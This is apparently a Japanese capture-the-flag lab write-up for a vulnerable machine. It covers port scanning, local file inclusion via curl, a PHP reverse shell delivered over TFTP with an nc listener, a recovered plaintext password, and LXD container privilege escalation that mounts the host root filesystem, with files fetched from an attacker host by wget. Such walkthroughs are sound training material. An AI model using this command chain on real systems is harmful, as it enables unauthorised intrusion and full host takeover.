

# 1.Port Scan
ip=10.129.95.185

対象IPのUDPポートをスキャン
UDPサービスを発見

`sudo nmap -sC -sV -sU $ip`

## Web Site Search
`sudo nmap -sC -sV $ip`
再度スキャンを行いwebsiteを発見

発見したwebsite

## Curl
下図赤枠内のfile=home.phpを改ざんすればユーザのアカウント情報を格納していると思われるディレクトリを発見できると推測

`curl 'http://$ip?file=/etc/passwd'`

TFTPで接続

# 2.TFTP Connect

指定ポートを解放

`nc -lvnp 1234`

TFTPにアップロードしてスクリプトを起動
指定サーバーに接続

 `curl 'http://10.129.138.138?file=/var/lib/tftpboot/php-reverse-shell.php'`
  

ホームディレクトリからuser.txtがあるmikeユーザを発見
権限が足らない事を確認。

TFTPを使用してることから/var/www/html/を確認する

パスワードらしきものを発見

`ls -la /var/www/html/`

mike:Sheffield19

ターミナルを起動

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

## 2. Get mike account

user.txtを取得

# 3.build

`sudo apt install -y git golang-go debootstrap squashfs-tools` 

`git clone https://github.com/lxc/distrobuilder`

`cd distrobuilder`

`make`

`mkdir -p ContainrImages/alpine/`

`ls`

`cd ContainerImages/alpine/`

`pwd`

`ls`

`wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml`  

`sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8`

# 4. server bild

`wget http://10.10.16.4:8000/lxd.tar.xz`

`wget http://10.10.16.4:8000/rootfs.squashfs`

`lxc image import lxd.tar.xz rootfs.squashfs --alias alpine`

`lxc image list`

`lxc init alpine privesc -c security.privileged=true`

`lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true`

`lxc start privesc`

`lxc exec privesc /bin/sh`

`id`

`cd /mnt/root/root`

`ls -al`

`cat root.txt`

